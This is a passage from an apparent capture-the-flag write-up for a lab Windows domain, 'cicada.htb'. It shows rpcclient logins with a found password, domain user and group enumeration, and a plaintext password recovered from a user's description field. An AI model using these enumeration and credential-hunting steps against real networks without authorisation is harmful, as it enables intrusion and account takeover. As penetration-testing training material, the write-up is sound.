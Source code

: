And it works!



Then, let's go ahead and login to RPC client as an authorized user and see what we can do or act on.

```
rpcclient 10.10.11.35 -U michael.wrightson%'Cicada$M6Corpb*@Lp#nZp!8' -W cicada.htb
```

And we got access to RPC session as an authorized user.

Now let's enumerate available users and groups on the system

```
rpcclient $> enumdomusers 
	user:[Administrator] rid:[0x1f4]
	user:[Guest] rid:[0x1f5]
	user:[krbtgt] rid:[0x1f6]
	user:[john.smoulder] rid:[0x450]
	user:[sarah.dantelia] rid:[0x451]
	user:[michael.wrightson] rid:[0x452]
	user:[david.orelious] rid:[0x454]
	user:[emily.oscars] rid:[0x641]

rpcclient $> enumdomgroups
	group:[Enterprise Read-only Domain Controllers] rid:[0x1f2]
	group:[Domain Admins] rid:[0x200]
	group:[Domain Users] rid:[0x201]
	group:[Domain Guests] rid:[0x202]
	group:[Domain Computers] rid:[0x203]
	group:[Domain Controllers] rid:[0x204]
	group:[Schema Admins] rid:[0x206]
	group:[Enterprise Admins] rid:[0x207]
	group:[Group Policy Creator Owners] rid:[0x208]
	group:[Read-only Domain Controllers] rid:[0x209]
	group:[Cloneable Domain Controllers] rid:[0x20a]
	group:[Protected Users] rid:[0x20d]
	group:[Key Admins] rid:[0x20e]
	group:[Enterprise Key Admins] rid:[0x20f]
	group:[DnsUpdateProxy] rid:[0x44e]
	group:[Groups] rid:[0x44f]
	group:[Dev Support] rid:[0x455]

```

After querying each user I came across david.orelious Description. It contains users comment, which contains the password of the user.

```
rpcclient $> queryuser david.orelious
		User Name   :	david.orelious
	Full Name   :	
	Home Drive  :	
	Dir Drive   :	
	Profile Path:	
	Logon Script:	
	Description :	Just in case I forget my password is aRt$Lp#7t*VQ!3
	Workstations:	
	Comment     :	
	Remote Dial :
	Logon Time               :	Fri, 15 Mar 2024 10:32:22 +04
	Logoff Time              :	Thu, 01 Jan 1970 04:00:00 +04
	Kickoff Time             :	Thu, 14 Sep 30828 06:48:05 +04
	Password last set Time   :	Thu, 14 Mar 2024 16:17:30 +04
	Password can change Time :	Fri, 15 Mar 2024 16:17:30 +04
	Password must change Time:	Thu, 14 Sep 30828 06:48:05 +04
	unknown_2[0..31]...
```
